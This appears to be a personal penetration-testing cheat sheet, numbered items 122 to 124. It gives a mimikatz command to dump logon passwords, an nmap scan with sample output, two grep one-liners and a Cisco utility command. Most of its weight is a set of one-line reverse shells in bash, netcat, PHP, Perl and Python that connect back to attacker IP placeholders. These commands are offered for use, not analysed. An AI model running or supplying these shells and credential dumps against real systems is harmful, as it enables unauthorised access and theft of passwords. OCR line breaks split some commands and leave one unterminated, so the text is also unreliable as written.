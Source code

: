 
#pull any available login passwords
mimikatz # sekurlsa::logonpasswords full


122) egrep the power of regex
root@kali:~/sufference# nmap -F -A 10.11.1.136 | egrep '(\/tcp|Service Info)'
22/tcp  open  ssh         OpenSSH 4.3p2 Debian 9 (protocol 2.0)
113/tcp open  ident
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: LOCAL)
445/tcp open  netbios-ssn Samba smbd 3.0.24 (workgroup: LOCAL)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


find the acl line with more numbers
cat adwea-show-acl  | grep -oe  'line\s[0-9]\+' | uniq -c | sort -nr > result








123) using webplayer command
C:\Program Files (x86)\cisco\hwl2ascii>hwl2ascii.exe -s -x -o "C:\Users\rtpvpn\Desktop\webplayer\<cco id>\<sr number>" "C:\Users\rtpvpn\Desktop\webplayer\<cco id>\<working httpwatch file>.hwl"




124) one line reverse shells
bash -i >& /dev/tcp/192.168.33.129/4444 0>&1
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f [good]


php -r '$sock=fsockopen("127.0.0.1",81);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("[Attack box IP]",[Port]);exec("/bin/sh -i <&3 >&3 2>&3");'






If the reverse shell session closes quickly after it has been established try to create a new shell session by executing the following command on the initial shell:
bash /bin/bash


perl
perl -e 'use Socket;$i="[Attack box
IP]";$p=[Port];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p
,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'




python
python -c 'import
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[Attack
box IP]",[Port]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);





